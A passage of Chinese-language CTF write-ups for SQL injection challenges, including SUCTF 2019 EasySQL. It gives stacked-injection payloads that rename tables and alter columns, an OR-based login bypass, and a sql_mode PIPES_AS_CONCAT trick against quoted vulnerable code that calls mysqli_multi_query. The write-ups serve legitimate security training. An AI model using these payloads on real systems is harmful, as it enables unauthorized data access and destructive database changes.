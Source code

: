 #### 方法三：替换默认表

1. 将words表改名为word1或其它任意名字
2. 1919810931114514改名为words
3. 将flag列改名为id

```
?inject=1';rename table `words` to `word1`;rename table `1919810931114514` to `words`;alter table `words`change `flag``id`varchar(100)character set utf8 collate utf8_general_ci not null;--+

接着我们再用0’ or '1'='1 #,查询就得到flag
```



### [SUCTF 2019]EasySQL

#### 考点：堆叠注入

查询源码后看到查询语句，[源码查询](https://www.jianshu.com/p/5644f7c39c68)

```mysql
$sql = "select ".$post['query']."||flag from Flag";
mysqli_multi_query($MysqlLink,$sql);
	do{
    	if($res = mysqli_store_result($MysqlLink)){
        	while($row = mysqli_fetch_row($res)){
            	print_r($row);
            }
       }
```

#### 思路

看到mysql_multi_query()，可以堆叠注入



#### 方法一：预期解

通过堆叠注入**sql_mode**的值为**PIPES_AS_CONCAT**，设置sql_mode为PIPES_AS_CONCAT后**可改变'||'的含义为连接字符串**

```
1;set sql_mode=PIPES_AS_CONCAT;select 1		//可以看到flag
```

#### 方法二：意外解

由于没有过滤 * 出现了一个意外解

```
*,1 
```



### [极客大挑战 2019]EasySQL

#### 考点：万能密码
